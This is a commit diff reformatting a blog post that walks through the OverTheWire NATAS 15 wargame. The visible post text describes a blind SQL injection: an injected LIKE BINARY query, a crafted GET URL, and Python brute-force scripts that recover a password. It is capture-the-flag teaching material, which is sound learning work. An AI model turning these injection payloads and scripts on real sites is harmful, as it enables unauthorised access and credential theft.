

Before and after one commit to MCPA/MCPA.github.io, a Jekyll site: the page built from _posts/natas-overthewire/2015-09-29-natas15.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4099 px. Shown: the whole window at 92% size, without its empty margins (3-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
fixed markup for jekyll

````diff
--- a/_posts/natas-overthewire/2015-09-29-natas15.markdown
+++ b/_posts/natas-overthewire/2015-09-29-natas15.markdown
@@ -12,7 +12,7 @@ author: Nate
 
 NATAS 15 demonstrates how confirming the contents of a username can be combined with a SQL Injection vulnerability to enable what's called a Blind SQL Injection attack.  If we click on the View sourcecode link shown in the screenshot above, we can once again view the server-side PHP script that the challenge author made available to us (see below).
 
-```html
+{% highlight html linenos %}
 <html>
 <head>
 <!-- This stuff in the header has nothing to do with the level -->
@@ -68,7 +68,7 @@ Username: <input name="username"><br>
 </div>
 </body>
 </html>
-```
+{% endhighlight %}
 
 The first thing we notice is that once again, just like NATAS 14, the user input is retrieved using the built-in $_REQUEST variable array.
 The $_REQUEST array in PHP contains the contents of HTTP cookies, HTTP POST, and HTTP GET.  If you're familiar with PHP, you should notice that this input isn't being sanitized before the value is placed in the SQL query to the database.
@@ -79,11 +79,11 @@ However, there are two subtle hints that we're meant to pay attention to.  First
 
 This leads us to conclude that a blind sql injection attack must be possible.  Our attempt at asking the database whether a password value exists (injected after the username) would be made easier if we already had a valid username.  Since we're trying to get to NATAS 16, I naturally tried natas16 as a username.
 
-![username_natas16](/images/username_natas16.png)
+![username_natas16](/images/natas15_username_natas16.png)
 
 Conveniently for us, natas16 is a valid username.
 
-![username_exists](/images/username_exists.png)
+![username_exists](/images/natas15_username_exists.png)
 
 Great.  Now all we need to do is guess a 64 alphanumeric password!  Actually, it's not that hard.  MySQL provides a few convenient string comparison features that will make this effort a lot less taxing.
 
@@ -97,18 +97,18 @@ Finally, MySQL allows the use of wildcards in your string comparisons.  This wil
 So the way to solve this challenge is to use the confirmation of the user existing to inject an additional query to ask whether the username AND password together is found in the database.  Our blind sql injection will be combined with a brute force attack to ask about every alphanumeric character until we find a match.  However, to make things easier, we'll first establish the list of characters that exist in the password before we try to brute force guess the exact order that those characters are found.
 
 The SQL Query will look something like this:
-```mysql
+{% highlight sql linenos %}
 SELECT * from users where username="natas16" and password LIKE BINARY "%W%"
-```
+{% endhighlight %}
 
 You can achieve this effort by typing these characters by hand into the GET parameters of the URL in your browser,
-```mysql
+{% highlight sql linenos %}
 http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+LIKE+BINARY+%22%W%&debug
-```
+{% endhighlight %}
 
 but that's going to take a long time, and we all value our problem.  Instead, I wrote a python script to do it for me.
 
-```python
+{% highlight python linenos %}
 #!/bin/python
 import requests,string
 
@@ -131,13 +131,13 @@ for char in characters:
         print("Password Dictionary: {0}").format(''.join(password_dictionary))
 print("Dictionary build complete.")
 print("Dictionary: {0}").format(''.join(password_dictionary))
-```
+{% endhighlight %}
 
 This script will establish a list of all the alphanumeric characters found in the password for natas16.  We confirm each character exists by parsing the result of the GET request for "This user exists." .  Once this list is built, we'll have a much smaller range of characters to brute force guess the password.
 
 Now, we'll take that list and start guessing the password:
 
-```python
+{% highlight python linenos %}
 # Given the dictionary of characters we just built, we'll try each character in that list
 print("Now attempting to brute force...")
 password_list = []
@@ -154,7 +154,8 @@ for i in range(1,64):
             password_list.append(char)
             password = ''.join(password_list)
             print("Length: {0}, Password: {1}").format(len(password),password)
-```
-![brute_force](/images/brute_force.png)
+{% endhighlight %}
+
+![brute_force](/images/natas15_brute_force.png)
 
 And that's it.  The password is the 32 character string at the bottom of the image.  To get to the next stage, navigate to http://natas16.natas.labs.overthewire.org/ and enter the username and password at the prompt.
````
Also changed, not shown: 1 other file.
